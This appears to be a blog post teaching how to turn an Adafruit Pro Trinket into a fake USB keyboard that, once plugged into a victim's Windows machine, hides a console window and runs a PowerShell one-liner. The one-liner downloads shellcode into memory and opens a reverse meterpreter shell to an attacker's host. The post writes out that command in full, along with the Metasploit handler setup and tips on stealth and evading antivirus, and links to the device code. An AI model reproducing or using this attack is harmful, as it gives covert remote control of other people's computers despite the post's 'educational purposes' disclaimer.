 ```yaml
---
layout: post
title: USB Keyboard Attack
author: wmoffitt
excerpt: Learn how to turn the Adafruit Pro Trinket into a fake USB keyboard that will spawn a reverse meterpreter shell onto a victims computer.
tags: [exploitation, cyber-security, pro-trinket]
---
```


![alt text](https://cdn-learn.adafruit.com/guides/images/000/000/865/medium800/ProTrinketKeyboard_Example_Picture_Smaller.jpg?1448302050 "Adafruit ProTrinket")
Source: [Adafruit.com](https://www.google.com/url?sa=i&rct=j&q=&esrc=s&source=images&cd=&cad=rja&uact=8&ved=0ahUKEwjV842S7YrPAhVDMz4KHaC4DSYQjRwIBw&url=https%3A%2F%2Fwww.adafruit.com%2Fproduct%2F2010&psig=AFQjCNGeCb3p10lA_3DA50t_OYh1Ht8AKw&ust=1473804558096200){:target="_blank"}

***DISCLAIMER: I am not responsible for any illegal activities as a result of this material. This is for educational purposes only.***

If you have never heard of Adafruit, or the Trinket line, please check them out [here](https://www.adafruit.com){:target="_blank"}. They have all kinds of different development kits, and plenty of tutorials to get you started on some fun projects. The Pro Trinket is the larger version of the Trinket, with more RAM, flash, and GPIO pins (as well as some other updates). This article will explain how to setup the Pro Trinket to act as a usb keyboard when plugged into a computer. Computers inherently trust the keyboard, because they trust the user using it. What we will be doing is quickly installing a meterpreter shell (windows/meterpreter/reverse_https to be specific) on to a Windows machine.

### The Code
The code for this attack can be found at my [Github](https://github.com/willmfftt/ProTrinket_WinReverseShell){:target="_blank"}. Make sure to change the ATTACKER_IP to the IP address you will be running your meterpreter handler on, and set the ATTACKER_PORT to the port you want the shell to connect back to you with.

### Prerequisites for Attack
Unless you plan on replacing the backdoor with something completely different, the target must have PowerShell. The backdoor has only been tested on Windows 7 and Windows 10 so far, but it could possibly work on versions as low as Windows XP SP2. Also, while it should be obvious after reading this article, this can only be performed on a logged in user. However, Administrator privledges are not required :).

### What Does It Do?
So what it does is actually quite simple, especially since we are using the ProTinketKeyboard library (available [here](https://learn.adafruit.com/pro-trinket-keyboard/library){:target="_blank"}) which handles registering our device as a keyboard. All we do after that is press the Windows-R key to bring up the run box, then we type cmd to bring up the command line. After that we do a few things that aren't really needed for the attack, but make it a bit more stealthy. First we shrink the command prompt down as small as we can get it by running: ```mode con: cols=20 lines=1```. This sets the console to 20 characters wide by 1 character tall. Next we run ```COLOR FE``` which sets the background color to white, and the text color to light yellow. When all is said and done, we are left with a tiny command prompt that you can barely read text on. 

The next part is using PowerShell to download a script, load it into memory and execute it. The script that it loads is written by PowerShell Empire which offers a ton of different options. I actually found this PowerShell one-liner at [SHELLGAM3.COM](https://shellgam3.com/tag/reverse-shells/){:target="_blank"}, who has an excellent list of one-liner reverse shells. This is the command that gets run: ```powershell -nop -windowstyle hidden -NonInteractive -exec bypass -c IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellEmpire/Empire/master/data/module_source/code_execution/Invoke-Shellcode.ps1");invoke-shellcode -Payload windows/meterpreter/reverse_https -Lhost 52.37.4X.XXX -Lport 8443```. What's really neat about this script is that it includes Windows Metasploit payloads, and everything gets loaded into memory so no antivirus gets triggered. In the code i've provided, the only change that was made is the host and port have been moved into DEFINE constants and ```-f``` has been added which prevents the script from prompting the user to accept.

### What's Next?
Well first and foremost, you will need to flash the code onto the device. If you are not sure how to do this, please read the instructions found [here](https://learn.adafruit.com/introducing-pro-trinket/setting-up-arduino-ide){:target="_blank"}. Before you plug the device in, you will need to start metasploit on the attacking machine (*Note: The IP address of this machine must match the ATTACKER_IP in the source code*). Once you have metaspoit running, you will need to run these commands:
	
1. ```use exploit/multi/handler```
2. ```set payload windows/meterpreter/reverse_http```
3. ```set LHOST YOUR-IP-HERE```
4. ```set LPORT YOUR-PORT-HERE```
5. ```run -j```

And that's it! You're ready to plug in the device. When you plug the device in, once the red flashing indicator has stopped the device has started executing the code. You should see the run box quickly popup, then see the command prompt change size and color. Once the command prompt has closed, the attack is complete and you can remove the device. In a few moments you should see the meterpreter session has opened in metasploit. Congrats!

![alt text](/public/img/meterpreter_session.jpg "Meterpreter Session")

### Conclusion
While I may have written this article around using the Adafruit Pro Trinket, I would actually suggest using the regular Trinket instead. The Pro Trinket has both MicroUSB and FTDI for programming, so the bootloader stays active for quite some time (I think around 10 seconds) while it attempts to detect where the programming will occur. However, I had a Pro Trinket laying around, so that is what this is based on. From the documentation for the ProTrinketKeyboard library, it is written with the same syntax as the TrinketKeyboard library. So all you should need to do to convert this import the new library. I have not tested whether this conversion works or not, so don't hold me to it.